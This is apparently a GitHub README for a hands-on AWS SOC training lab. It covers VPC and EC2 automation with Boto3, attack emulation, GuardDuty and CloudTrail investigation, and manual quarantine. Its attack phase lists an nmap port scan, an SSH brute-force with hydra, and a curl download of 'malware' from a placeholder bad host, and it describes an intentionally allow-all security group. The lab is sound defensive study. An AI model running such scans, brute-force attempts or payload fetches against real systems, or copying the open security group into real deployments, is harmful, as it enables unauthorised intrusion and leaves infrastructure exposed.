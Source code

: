 AWS Cloud SOC Simulation: Detection, Attack Emulation & Incident Response

## 📌 Overview
This project simulates a real-world cloud security incident using AWS. It covers everything from infrastructure automation to attack simulation and incident response. I used Python and Boto3 to automate VPC and EC2 deployment, launched attack simulations from a Kali machine, and investigated alerts with GuardDuty and CloudTrail like a real SOC analyst.

🔗 Full documentation with screenshots and commands:  
👉 [documenting.md](https://github.com/jmcoded0/-AWS-Cloud-SOC-Lab-Detection-Attack-Simulation-Incident-Response/blob/main/documenting.md)

## 🧰 Tools & Skills Used
- **Cloud:** AWS (EC2, VPC, GuardDuty, CloudTrail, CloudWatch, IAM, SSM)
- **Automation:** Python, Boto3
- **Security:** SOC workflows, threat detection, IOCs, incident response
- **Attack Simulation:** Nmap, Hydra, curl
- **Monitoring & Logging:** CloudWatch Agent, SSM Parameter Store

## 🎯 Project Goals
- Automate AWS infrastructure (VPC, EC2, security groups) using Python and Boto3.
- Simulate real-world attacks (port scans, SSH brute-force, fake malware downloads).
- Analyze GuardDuty findings and CloudTrail logs to extract IOCs.
- Practice SOC analyst tasks like quarantining compromised resources.

## ⚙️ Phases

### ✅ Phase 1: VPC Automation
- Created a custom VPC (`10.0.0.0/16`), subnets, Internet Gateway, and Route Table using Boto3.
- Used `config.py` for reusable variables.
- **Lesson:** Break scripts into steps and print IDs for easier debugging.

### ✅ Phase 2: Security Group Setup
- Created `coded-sg-v2` security group allowing all traffic (lab-only, insecure).
- Verified default VPC ID using AWS CLI.
- **Lesson:** Intentionally insecure setups maximize detection visibility.

### ✅ Phase 3: EC2 Attacker Setup
- Launched an Ubuntu EC2 instance (`t2.micro`, AMI: `ami-04b70fa74e45c3917`).
- Configured CloudWatch Agent via SSM Parameter Store to monitor logs (`/var/log/syslog`, `/var/log/auth.log`) and metrics.
- Installed tools like `nmap` and `curl` for attack simulation.
- **Lesson:** SSM-managed configs are scalable for monitoring.

### ✅ Phase 4: Attack Simulation
- Simulated:
  - Port scans: `nmap -sS 1.1.1.1`
  - SSH brute-force: `hydra`
  - Fake malware downloads: `curl http://badhost.com/malware`
- Triggered GuardDuty malware detection events (`/aws/guardduty/malware-scan-events`).
- **Lesson:** Even failed commands can trigger behavioral detections.

### ✅ Phase 5: Forensics and IOC Extraction
- Analyzed GuardDuty findings:
  - `Recon:EC2/Portscan`
  - `Backdoor:EC2/DenialOfService.TorClient`
- Extracted IOCs such as:
  - IP: `1.1.1.1`
  - Port: `35`
  - Instance ID: `i-0bca611a4c23538c8`
- Encountered CloudTrail permission error (`cloudtrail:LookupEvents`).
- **Lesson:** IAM policies are critical gatekeepers.

### ✅ Phase 5.2: Manual Quarantine
- Tagged the compromised EC2 instance with `Quarantine=True`.
- Stopped the instance manually.
- **Lesson:** Manual containment builds real IR muscle memory.

### ✅ Phase 6: CloudTrail Analysis
- Correlated GuardDuty findings with CloudTrail logs.
- Investigated snapshot usage and event history.
- **Lesson:** Logs provide crucial context for incident reconstruction.

## 💡 Key Lessons
- Cloud security is tactical—it requires real, hands-on AWS practice.
- GuardDuty + CloudTrail offer deep visibility into threat activity.
- Manual response steps (like tagging or stopping instances) are valid IR actions.
- IAM permissions directly impact your ability to investigate.

## 🙋 Reflections
This project taught me how to think like a cloud security analyst—from building and misconfiguring infrastructure, to simulating real attacks, investigating alerts, and responding manually. It was a full, hands-on journey through AWS security tools like GuardDuty, CloudTrail, and IAM.
